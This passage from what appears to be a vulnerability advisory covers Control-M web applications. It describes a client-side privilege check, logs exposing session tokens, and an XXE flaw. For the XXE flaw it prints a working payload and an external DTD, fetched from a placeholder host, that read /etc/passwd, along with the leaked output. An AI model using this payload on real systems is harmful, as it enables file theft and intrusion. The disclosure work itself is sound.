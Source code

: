 This ```userLevel``` value is used by the web browser to handle rights:
```
<button class="btn btn-default" ng-disabled="userLevel < 3" ng-click="savePlugin(plugin)" disabled="disabled">
    <div>
        <img src="img/icons/Save32.png">
    </div>
    Save
</button>
```

By intercepting the server's response and changing the numeric value to a higher value, all options become available in the web interface. There were no server-side checks for all operations tested (save, deploy...).


HIGH: Authenticated XXE
=======================
The ```wsdl``` endpoint of Control-M Web Application Integrator is vulnerable to a XXE attack when parsing the XML file. This indicates the use of an unsecured XML parser that allows DTDs.

Moreover it is exploitable in an error-based fashion, which is the most profitable case as it permits to both list the filesystem and retrieve individual files.

xxe.xml:
```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % asd SYSTEM "http://xx.xx.xx.xx:8080/xxe.dtd"> %asd; %c;]>
<foo>&rrr;</foo>
```

xxe.dtd:
```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c '<!ENTITY rrr SYSTEM "file:///nofile:%d;">'>
```

Request:
```
https://yy.yy.yy.yy/aisrv/wsdl/?wsdlLocString=http:%2F%2Fxx.xx.xx.xx:8080%2Fxxe.xml
```

Response:
```
Can't parse wsdl:java.io.FileNotFoundException: /nofile:root:x:0:0:root:/root:/bin/bashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4: ... (No such file or directory)
```


HIGH: Secrets in logs
=====================
On all Control-M Web applications the logs contain the user's tokens. Getting access to these logs permits session hijacking.

For instance this is what is logged when a user authenticates:
```
2023-08-02 09:35:43,157 INFO [http-nio-127.0.0.1-49095-exec-5] (ThriftClient.java:325) - getAuthorization for AI_ACCESS_PRIV_TYPE BROWSE_ACCESS
2023-08-02 09:35:43,157 INFO [http-nio-127.0.0.1-49095-exec-5] (LoginController.java:841) - AUTHLEVEL: 2
2023-08-02 09:35:43,157 INFO [http-nio-127.0.0.1-49095-exec-5] (LoginController.java:1033) - addTokenCookieAndHeader
2023-08-02 09:35:43,157 INFO [http-nio-127.0.0.1-49095-exec-5] (LoginController.java:849) - new login token: D23D0E4B874359FE0B36A4919119B479F0FCA4CBCB67D3A01ED4B058D9CDA8D0C93DD4D87E68DA25E734FCE3AC2A605982C177BEB8D5AFD4D6008881B70E8D13
2023-08-02 09:35:43,158 INFO [http-nio-127.0.0.1-49095-exec-5] (ThriftUtil.java:29) - setSession: D23D0E4B874359FE0B36A4919119B479F0FCA4CBCB67D3A01ED4B058D9CDA8D0C93DD4D87E68DA25E734FCE3AC2A605982C177BEB8D5AFD4D6008881B70E8D13
```